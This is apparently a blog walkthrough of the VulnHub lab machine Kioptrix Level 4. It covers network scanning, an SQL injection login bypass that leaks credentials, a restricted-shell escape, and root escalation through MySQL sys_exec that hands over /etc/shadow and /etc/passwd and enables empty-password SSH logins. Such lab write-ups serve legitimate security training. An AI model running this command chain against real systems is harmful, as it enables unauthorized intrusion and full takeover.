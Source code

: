```yaml
---
layout: post
title: Kioptrix Level 4
---
```

[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4%2C25/)

## Setup

Download .rar file and extract

Create new virtual machine and go to VM > Settings > Hard Disk > Remove

Add > Hard Disk > SCSI > Use exisiting > Kioptrix.vmdk file

Set both local machine and target to NAT and restart them both and you should be able to find the target IP

## Find IP of box
Our IP: x.x.x.146

`nmap -sP <LHOST>/24`

Kioptrix is running x.x.x.151

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.151`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL4/Nmap1.JPG)
 
 There are 4 ports open: 22 (ssh), 80 (http), 139 (samba), 445 (samba)
 
 ## HTTP
 ### Gobuster
 
 `gobuster dir -u http://x.x.x.151 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

![Initial Gobuster Scan](/images/KioptrixL4/Gobuster1.JPG)

Looks like we have a couple usernames in john and robert so when we open the webpage, we see a login and can enter john as the username and test as the password which just re-directs to a checklogin.php page

### SQLi

Enter john as the username and `' or '1' = '1` which displays john's actual credentials

We can do the same for robert.

## SSH

ssh as john : MyNameIsJohn
or ssh as robert : ADGAdsafdfwt4gadfga==

Entering most commands tells us we will be kicked out if we tryit again

We can find our allowed commands by typing `help` or `?

We can use echo so if we enter `echo os.system('/bin/bash')` we can upgrade the shell to use more commands

## Priv Esc

Uploaded `linpeas.sh` using a python3 web server and to shows that mysql may be an attack vector

`mysql -u root -h localhost`

`SELECT sys_exec('chown john.john /etc/shadow');`

`SELECT sys_exec('chown john.john /etc/passwd');`

`SELECT sys_exec('chown -R john.john /root');`

Exit and cd /root where we can `cat congrats.txt`

However, we're not actually root yet, jsut able to read the file

`vim /etc/passwd` and remove the x is the root line --> root::0:0:root:/root:/bin/bash

`vim /etc/shadow` and change the root line to --> root::::::::

`mysql -u root -h localhost`

`SELECT sys_exec('chown -R john.john /etc/ssh');`

`vim /etc/ssh/sshd_config` and change PermitEmptyPasswords to yes and change UsePAM to no

`mysql -u root -h localhost`

`SELECT sys_exec(‘reboot’);`

This will exit the ssh session and when it does, you can do `ssh root@x.x.x.151` which logs you in as root
